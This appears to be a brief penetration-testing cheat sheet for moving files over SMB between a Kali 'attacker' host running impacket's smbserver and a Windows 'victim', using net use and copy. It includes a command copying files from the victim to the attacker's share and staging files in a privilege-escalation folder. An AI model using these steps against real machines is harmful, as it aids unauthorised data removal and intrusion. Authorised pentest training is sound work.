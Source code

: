 # linux attacker

## smb host

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

## smb2 with password

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username username -password password kali .
```

# windows attacker

## mount smb share to letter

```cmd
net use u: \\<lhost>\kali /user:username password
```

## unmount smb share

```cmd
net use u: /d
```

## move files from attacker to victim via smb share

```cmd
copy \\<lhost>\kali\<some-file> C:\PrivEsc\<some-file>
```

## move files from victiom to attacker via smb share

```cmd
copy C:\PrivEsc\<some-file> \\<lhost>\kali\<some-file>
```
